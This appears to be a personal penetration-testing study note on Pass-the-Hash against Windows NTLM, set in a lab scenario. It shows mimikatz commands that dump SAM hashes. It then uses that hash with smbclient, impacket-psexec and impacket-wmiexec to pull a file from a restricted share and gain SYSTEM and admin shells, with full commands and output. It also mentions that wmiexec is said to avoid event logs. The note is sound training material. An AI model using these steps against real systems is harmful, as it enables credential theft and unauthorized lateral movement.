

# Passing NTLM Hashes
When you get an [NTLM](../../networking/protocols/NTLM.md) hash from a victim system, you may not have to [crack it](cracking-NTLM.md). Because older versions of NTLM are insecure, and the authentication mechanism SUX, the victim system may be configured to *authenticate you with the hash and username alone*, no password needed. This is when you can use a *Pass the Hash* technique.

NTLM password hases *are not salted* and are *static between sessions*. They can be used (in combo w/ a username) to authenticate to local and remote machines, and to multiple machines on a network/ domain (as long as each target has an account with the same username and password). However, since Windows Vista, all [Windows](../../computers/windows/README.md) versions have *UAC Remote Restrictions* enabled by default, which mitigates this vuln.
## Example Scenario
Let's say we have two machines on a system, `Files01` and `Files02`. On `Files01` we found the username `gunther` with a password `password123`. 

On `Files02` there is a restricted [SMB](../../networking/protocols/SMB.md) share that we want to gain access to, but we need Admin privileges. Let's assume both machines have an `Administrator` user with the same password (which is common to see). 

If we connect to `Files01` using [RDP](../../networking/protocols/RDP.md) and the `gunther` account and password, we can see if we have access to the target SMB share by entering its path in Windows Explorer: `\\192.168.50.212\secretes`. Once we enter the filepath, we're prompted for credentials.

Entering creds for `gunther` doesn't work, meaning the account doesn't have the right permissions, of *the account doesn't exist on `Files02`* where the `\secret` share is located. Let's break out [mimikatz](../../cybersecurity/TTPs/actions-on-objective/tools/mimikatz.md) to see if we can capture the NTLM hash for the local Administrator:
### Mimikatz
Just like in [cracking NTLM](cracking-NTLM.md), we'll get our `mimikatz.exe` binary onto `Files01`. Then open a [powershell](../../coding/languages/powershell.md) window as Administrator and run mimikatz. Once in the mimikatz repl shell thing, we'll run `privilege::debug` to gain the `SeDebugPrivilege` access rights on the machine. Then we can run `token::elevate` to get the NTLM hash for a process or account that has privileges to dump the [SAM](../../computers/windows/SAM.md).  Once we've done that, then we can run `lsadump::sam` to dump all of the NTLM hashes from the SAM and get the hash for the `Administator` user (local to `Files01`):
```powershell
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
...

mimikatz # lsadump::sam
...
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 7a38310ea6f0027ee955abed1762964b
...
```
### Tools for Passing the Hash
There are a few tools we can use to pass the hash, inlcuding Mimikatz:
- [smbclient](../../CLI-tools/linux/remote/smbclient.md)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec?tab=readme-ov-file)
- [impacket](../../cybersecurity/TTPs/exploitation/tools/impacket.md)
	- [wmiexec.py](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py) for command execution
	- [psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py) for command execution
- [RDP](../../networking/protocols/RDP.md)
### Using `smbclient`
To Pass the Hash with [smbclient](../../CLI-tools/linux/remote/smbclient.md) we just have to add the `--pw-nt-hash` flag along with the username and share path:
```bash
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Jun  2 16:55:37 2022
  ..                                DHS        0  Thu Jun  2 16:55:35 2022
  secrets.txt                         A        4  Thu Jun  2 11:34:47 2022

                4554239 blocks of size 4096. 771633 blocks available

smb: \> get secrets.txt
getting file \secrets.txt of size 4 as secrets.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```
After giving the `smbclient` command, we gain a repl on the `\secrets` share of `Files02`. From here, we can use the `get` command to download the `secrets.txt` file onto our computer. Once we download that, we can disconnect from the share and cat the file to our terminal to see what it contains.
### Using `psexec.py`
`psexec.py` is an [impacket](../../cybersecurity/TTPs/exploitation/tools/impacket.md) script that is very similar to the OG [PsExec command](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) which is a Microsoft command line tool that's supposed to be a "light-weight [telnet](../../networking/protocols/telnet.md) replacement that lets you execute processes on other systems."

`psexec.py` works by searching for *writeable shares*. Once its found one, it will upload *an executable to it*. Then it will *register the executable as a Windows service* and start it. The result is an *interactive shell* (or some other form of code execution).

To execute this on Kali we can use the [`impacket-scripts`](https://www.kali.org/tools/impacket-scripts/) python package. This will allow us to access all of impacket's scripts as commands using the syntax: `impacket-<script name>`. To use the `psexec` script (with the hash we collected) our command would be:
```bash
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 192.168.50.212.....
[*] Found writable share ADMIN$
[*] Uploading file nvaXenHl.exe
[*] Opening SVCManager on 192.168.50.212.....
[*] Creating service MhCl on 192.168.50.212.....
[*] Starting service MhCl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> hostname
FILES02

C:\Windows\system32> ipconfig
 
Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::7992:61cd:9a49:9046%4
   IPv4 Address. . . . . . . . . . . : 192.168.50.212
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254

C:\Windows\system32> whoami
nt authority\system
```
BOOM! We used the local admin account's NTLM hash to gain a shell on the `Files02` machine.
### Using `wmiexec.py`
`wmiexec.py` is another impacket script we can use in combination with out hash to gain access to `Files02` as the local admin. All we have to do is run it with the `impacket-script` package and the same flags as we gave for `psexec.py`:
```bash
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
files02\administrator

C:\>
```
This script uses the Windows [WMI](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page) (Windows Management Instrumentation) system which runs under a user account (has to be an Admin account). It also doesn't generate event log messages (according to the `wmiexec.py` author comments).

> [!Resources]
> - [CrackMapExec Repo (no longer maintained RIP)](https://github.com/byt3bl33d3r/CrackMapExec?tab=readme-ov-file)
> - [Microsoft: PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)
> - [`impacket-scripts`](https://www.kali.org/tools/impacket-scripts/)
> - [Microsoft: WMI](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
